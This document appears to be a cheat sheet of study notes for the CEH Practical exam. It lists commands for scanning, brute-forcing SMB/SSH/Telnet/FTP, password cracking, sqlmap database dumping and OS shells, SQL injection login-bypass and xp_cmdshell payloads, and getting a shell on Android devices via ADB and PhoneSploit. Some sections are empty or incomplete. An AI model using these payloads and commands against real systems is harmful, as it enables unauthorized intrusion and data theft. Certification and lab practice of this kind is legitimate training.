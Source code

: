 Reference: 
https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
https://github.com/hunterxxx/CEH-v12-Practical
https://medium.com/@abdulmajidjamil/ceh-practical-lpt-master-ctf-notes-in-general-d0cb7007dacd
https://immpetus.gitbook.io/ceh-practical/nmap-tool

# Scanning

  
<details>
  <summary>Netdiscover</summary>





## Netdiscover 
  
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
 </details> 

<details>
  <summary>Nmap</summary>

 * NMAP Scripts
```console
nmap -p 389 -T4 -A -v --script ldap-rootdse nnn.nnn.nnn.nnn/nn
nmap --script ftp-brute -p 21 <host>
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
```

 * Certain port scans
```console
Nmap -Pn -p 3389 target > rdp  // grep -B 5 open rdp
Nmap -Pn -p 3306 target > mysql // grep -B 5 open mysql
nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput 10.10.10.10
```

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```

</details>

# If have web service, try enumerate:
<details>
  <summary>Gobuster</summary>
  
```shell
gobuster -e -u http://10.10.10.10 -w wordlsit.txt
```
</details>

<details>
  <summary>Dirb</summary>
  
```shell
dirb http://10.10.10.10 wordlist.txt
```
</details>

# Credential / Password Attacks
<details>
   <summary>Bruteforce SMB</summary>

* SMB Cracking with Hydra
  
```console
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt 192.168.1.118 smb
```
* SMB Cracking with Metasploit

```console
For Cracking SMB Password:
we need to make folder -> store wordlist into that -> run msf from that folder | This process makes your work even better and smooth.
>msfconsole .
>use auxiliary/scanner/smb/smb_login
>show option | To get an idea of what to set on
>set PASS_FILE ./ROKYOU.TXT
>set rhost {target IP address} | notes :- rhost means remote host
>set SMBUser name [of the user] | (generally Administrator is username)
>run
```
</details>


  </details>

<details>
  <summary>Bruteforce SSH</summary>
  
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
</details>

<details>
  <summary>Bruteforce TELNET</summary>
  
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
</details>

<details>
  <summary>Bruteforce FTP</summary>

```console
    TRY user "annoymous" + no password
  ```
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

• If the service isn't running on the default port, use -s
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221

• Used to download the specific file from FTP to attacker or local machine
get flag.txt ~/Desktop/filepath/flag.txt


```
</details>

<details>
 <summary>Password Cracking - John</summary>

```console
john --single --format=md5crypt crack.txt
```
</details>

<details>
 <summary>Password Cracking - Hashcat</summary>

```console
Hashcat
```
</details>

<details>
 <summary>Password Cracking - WIFI Encryption </summary>

```console
aircrack-ng -w rockyou.txt capture-01.cap
```

</details>





# Vulnerability Scanning 

<details>
  <summary>Nessus</summary>
  
```console
Nessus runs on https[:]//localhost[:]8834
```
</details>

<details>
  <summary>Nikto</summary>
  
```console
nikto -h 
```
</details>

# Hidden text

<details>
  <summary>Snow</summary>
  
```console
snow -C -p "magic" readme2.txt
```
</details>

<details>
<summary>Steghide</summary>

```console
```
</details>




# WIRESHARK
<details>

  ```shell
    select_packet > follow > TCP Stream
  ```
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS, go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
View Flood attack on victim via Wireshark 
```console
•	| use filter tcp.port=21 
 ```
https://www.comparitech.com/net-admin/wireshark-cheat-sheet/
</details>



# SQL

<details>

```console
SQLMAP Extract DBS
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs

Extract Tables
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables

Extract Columns
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns

Dump Data
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump

OS Shell to execute commands
•	sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell

Login bypass
•	blah' or 1=1 --

Insert data into DB from login
•	blah';insert into login values ('john','apple123');

Create database from login
•	blah';create database mydatabase;

Execute cmd from login
•	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --
```

Other SQLi
```shell
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```


SQLMAP

```shell
* For finding DBs:
sqlmap -u "------/id=1" --dbs --batch
sqlmap -u "https://bliss-hotel.000webhostapp.com/room_details.php?room_type_id=RM101" --dbs --batch

* Find DBs 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

* Find Tables =
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

* Find columns = 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

* Dump table =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

* Dump the DB =
 sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch

* Using cookies : 
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

* manual SQL Injection
in login page enter blah' or 1=1-- as username and click login without entering the password

* GET access of OS Shell = 
sqlmap -u 'url' --dbms=mysql --os-shell SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell
```

</details>
</details>





# VERACRYPT 


# CUSTOM WORDLIST 

<details>
<summary>Cewl</summary>
  
* cewl is the tool, example.com is the site, -m is to specify the minimum length of the word , -w is to specify the output file
  
```console
cewl example.com -m 5 -w words.txt
```
</details>



# MOBILE 

<details>
  <summary>ADB</summary>
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>

<details>
  <summary>PhoneSploit</summary>
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>




# resources 

* https://github.com/nirangadh/ceh-practical/blob/main/module03-Scanning-Networks.txt
* https://github.com/Samson-DVS/CEH-Practical-Notes/tree/main

